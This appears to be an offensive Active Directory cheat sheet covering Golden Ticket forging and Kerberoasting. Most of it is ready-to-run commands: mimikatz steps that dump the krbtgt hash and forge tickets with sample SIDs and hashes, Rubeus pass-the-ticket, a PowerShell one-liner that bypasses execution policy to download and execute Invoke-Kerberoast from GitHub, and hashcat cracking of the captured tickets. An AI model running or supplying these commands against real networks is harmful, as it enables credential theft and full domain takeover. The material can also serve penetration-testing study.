 ### Golden Ticket Ft **Mimikatz** (Forge ticket)
<aside>
Forging a TGT (and the included PAC)
Requires tje krbtgt key, the “master” encryption key from the KDC
Can be used to request any TGS from the Domain Controller
</aside>

```bash
#getting krbtgt (user: krbtgt, NTLM: krbtgt hash)
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch

#using krbtgt hash via mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
        mimikatz # kerberos :: golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /krbtgt:fc274a94b36874d2560a7bd332604fab /ptt
# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi

 #List tickets in memory
klist

#using krbtgt hash via Rubeus
.\Rubeus.exe ptt /ticket:ticket.kirbi
        .\Rubeus.exe ptt /ticket:C:\Temp\silver.kirbi

#After running above code to generate golden ticket, the golden ticket will be automaticallys submiited for current session
#to launch cmd using the current session validated by golden ticket
mimikatz # misc::cmd
mimikatz # misc::cmd whoami
```

### Kerberoasting [STEAL ticket]
<aside>
Kerberoasting is a technique that allows an attacker to steal the KRB_TGS ticket, that is encrypted with RC4, to brute force application services hash to extract its password. 
Kerberoasting requires a valid domain account.
Three step process:
- Find SPN tied to user accounts through LDAP (service accounts)
- Request a TGS for each SPN
- Crack the TGS offline to recover the service account's password
</aside>

```bash
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"

# cracking TGS hashes
hashcat -m 13100 kerb-Hash0.txt wordlist.txt --force
        hashcat64.exe -m 13100 "C:\Users\test\Documents\Kerb1.txt" C:\Users\test\Documents\Wordlists\Rocktastic12a --outfile="C:\Users\test\Documents\CrackedKerb1.txt"
```
